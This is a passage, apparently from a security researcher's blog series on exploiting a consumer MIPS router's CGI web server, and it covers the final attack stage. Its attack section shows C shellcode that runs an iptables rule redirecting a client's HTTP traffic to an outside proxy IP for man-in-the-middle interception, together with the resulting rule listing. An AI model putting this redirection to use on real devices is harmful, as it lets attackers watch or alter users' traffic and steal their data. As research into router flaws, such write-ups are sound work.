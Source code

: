 Building the MIPS tool chain for cross compilations can be quite a chore, but with the resources below I got to the promise land, with Ubuntu, relatively quickly:

* [Linux MIPS Toolchains](https://www.linux-mips.org/wiki/Toolchains)
* [Building GCC requires GMP 4.2+, MPFR 2.3.1+ and MPC 0.8.0+](http://stackoverflow.com/questions/9253695/building-gcc-requires-gmp-4-2-mpfr-2-3-1-and-mpc-0-8-0)
* [gcc 4.8.1 will not make](http://stackoverflow.com/questions/18242322/gcc-4-8-1-will-not-make)
* [Re: position independent code on MIPS](https://gcc.gnu.org/ml/gcc-help/2006-01/msg00119.html)

# The attack

Now that we have arbitrary execution on the device and we know how to build the shellcode, the possibilities are limitless. We could build and install implants and/or reconfigure the device. I've decided to explore one option of reconfiguring the device by forcing it to reroute HTTP traffic via a malicious server.

```c
int main() {
  do_cmd = (int (*)(const char*)) (0x00410CD4);

  do_cmd("iptables -t nat -A PREROUTING -p tcp -i br0 
            --src 192.168.1.3 --dport 80 -j DNAT 
            --to-destination 35.185.202.54:8800;
          /etc/init.d/web restart");

  return 0;
}
```

The device is a router that runs a version of Linux, so almost by definition we should be able to play with the `iptables` firewall rules. So, we install a rule that will NAT port `80` traffic from `192.168.1.3` client via a public proxy at `35.185.202.54:8800`.

```bash
# iptables -t nat -L
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         
DNAT       udp  --  anywhere             192.168.1.1    \
     udp dpt:domain to:75.75.75.75:53 
DNAT       tcp  --  192.168.1.3          anywhere       \
     tcp dpt:http to:35.185.202.54:8800 
```

On the proxy we run an instance of the MITM Proxy [6] with flags to forward any request to its intended destination. This will give us the ability to transparently observe or modify the user's traffic. According to Google's transperancy report [5], there are still quite a lot of major sites that do not use TLS by default. Just another example that one can never trust network infrastructure [7].

# Conclusion
To review, we have taken a devices off the shelves. Explored its attack surface. Got a terminal where we could perform dynamic analysis with a debugger. Then, found vulnerabilities in the CGI webserver and exploited them. In this article we have seen one possible scenario how an attacker could start taking advantage of the vulnerabilities to change users' traffic. The attacker could potentially use this vector to deploy browser exploits or collect sensitive user information.
